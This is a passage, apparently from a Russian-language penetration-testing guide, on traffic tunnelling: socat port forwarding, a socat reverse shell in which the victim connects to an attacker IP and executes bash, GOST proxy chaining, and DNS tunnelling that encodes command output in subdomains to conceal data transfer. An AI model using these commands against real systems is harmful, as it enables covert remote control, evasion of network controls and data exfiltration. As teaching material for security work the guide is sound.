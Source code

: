 Пример — P2P форвардинг на “джамп” сервере:
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &, где:

    lport — порт, который будет открыт на узле, где запущен socat
    redirect_ip — адрес, куда будет направлен трафик с узла
    rport — адрес порта, куда будет отправлен трафик с порта lport
    Пример обратного шелла:

> attacker > socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0 — поднимает сокет 1337 и берет / кладет туда данные в
> режиме терминала

> victim > socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane — присоединяется к сокету по адресу
> атакующего и отправляет все данные из него на исполнение

#### GOST

GO Simple Tunnel не сильно отличается по возможностям от предыдущей утилиты, но имеет более простой синтаксис правил.
Также язык разработки GO упрощает компиляцию исполняемого файла под заданную ОС.

Стандартные примеры использования:

Стандартный HTTP/SOCKS5 прокси:
> gost -L=:8080

Прокси с аутентификацией:
> gost -L=admin:123456@localhost:8080

Режим цепочки прокси:

    Прокси сервер: gost -L=socks://:1080
    Прокси клиент: gost -L=:8080 -F=socks://server_ip:1080

### Использование внешних утилит для скрытия трафика

Утилиты сокрытия трафика и обхода ограничений используют нестандартные протоколы, такие, как DNS и ICMP, позволяя обойти
блокировки или скрыть факт передачи данных.

### DNS-туннелирование

DNS-туннелирование (DNS Tunneling) — это метод использования DNS-протокола для передачи данных между компьютерами в
сети.

Одним из способов реализации DNS-туннелирования является использование поддоменов.

    Пример:
    
    OVUWIPJRGAYDCKDSMVTXK3DBOIUSAZ3JMQ6TSOJZFBZGKZ3VNRQXEKI.example.com

В имени поддомена закодирована строка: uid=1001(regular) gid=999(regular)

Другим способом реализации DNS-туннелирования является использование поля "OPCODE" в запросах DNS.
Поле "опкод" обычно используется для указания типа запроса (например, запрос на получение записи или запрос на
обновление записи), но может также использоваться для передачи полезной нагрузки, включая команды или файлы.
